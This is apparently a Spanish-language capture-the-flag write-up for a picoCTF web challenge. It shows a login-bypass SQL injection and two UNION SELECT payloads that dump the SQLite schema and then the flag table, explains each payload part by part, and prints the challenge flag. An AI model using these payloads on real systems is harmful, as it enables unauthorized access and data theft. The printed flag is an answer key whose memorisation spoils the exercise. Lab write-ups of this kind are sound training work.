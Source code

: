 ## Descripción 
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

## Datos de Acceso al Nivel
user: carlosof / kali
password:

## Solución
- Iniciamos el launcher del reto e ingresamos a la pagina web.
- Para acceder, hacemos una inyección sql:
	- En el username escribimos `admin`
	- En la password escribimos `' or 1= 1;`
- De esta manera podemos ingresar a la pagina web.
- En el buscador del `Search Office` escribimos la siguiente inyección: 
```bash
Algiers' union select sql,1,1 from sqlite_master--
```

De esta manera obtenemos información de las tablas y ahora escribimos esta inyección:
```bash
Algiers' union select flag,id,1 from more_table;--
```

De esta manera obtenemos la bandera:
	Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}

## Notas Adicionales
`Algiers' union select sql,1,1 from sqlite_master--`
- **`Algiers'`**:  
    El `'` (comilla simple) cierra una cadena de texto que estaba abierta en la consulta original.
    
- **`union select`**:  
    El `UNION SELECT` es usado para combinar el resultado de dos consultas. Si la primera parte de la consulta no devuelve el resultado esperado, la segunda consulta se ejecuta y sus resultados se combinan con la primera. 
    
- **`sql, 1, 1`**:  
    Aquí parece que la consulta está seleccionando tres columnas. El valor `1, 1` son valores literales (constantes), y `sql` probablemente es el nombre de una columna. 
    
- **`from sqlite_master`**:  
    `sqlite_master` es una tabla interna de SQLite que contiene metadatos sobre la base de datos, como las tablas y vistas que están presentes. 
- **`--`**:  
    Los dos guiones `--` son un comentario en SQL. Cualquier cosa después de estos caracteres será ignorada por el motor de la base de datos. 

`Algiers' union select flag,id,1 from more_table;--`
- **`Algiers'`**:
    - El `'` (comilla simple) cierra una cadena de texto que podría estar abierta en la consulta original. 
    
- **`union select`**:
    - `UNION SELECT` permite combinar el resultado de la consulta original con el resultado de una consulta propia.
    
- **`flag, id, 1`**
	- `flag`: Es una columna de la tabla `more_table`. 
    - `id`: Otra columna de la tabla `more_table`, probablemente el identificador de algún registro.

- **`from more_table`**:
    - Especifica la tabla `more_table` de la cual el estamos intentando extraer datos.
    
- **`;--`**:
    - **`;`**: Termina la consulta SQL.
    - **`--`**: Es un comentario en SQL. Cualquier cosa que venga después de `--` será ignorada por el motor de la base de datos. 
## Referencias 
https://play.picoctf.org/practice/challenge/358
[The Schema Table (sqlite.org)](https://sqlite.org/schematab.html#:~:text=Every%20SQLite%20database%20contains%20a%20single%20%22schema%20table%22,and%20views%20that%20are%20contained%20within%20the%20database.)
[Vulnerabilities (sqlite.org)](https://sqlite.org/cves.html)